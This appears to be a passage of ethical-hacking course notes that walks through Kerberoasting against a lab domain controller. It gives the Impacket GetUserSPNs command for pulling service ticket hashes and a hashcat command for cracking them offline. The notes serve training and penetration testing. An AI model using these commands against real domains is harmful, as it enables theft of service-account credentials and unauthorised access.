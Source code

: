 # V. Kerberoasting Walkthrough

All we need for this attack is our Kali machine and DC machine as it is our KDC (Key Distribution Centre).

Open the terminal and use the following command to grab the hash `python GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request` :

![Kerberoasting_1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/fa3c2836-af37-4148-8330-c7254aedbc45)

Next save the hash into a text file (i.e krb.txt)

Finally crack the hash using hashcat.

`hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt`
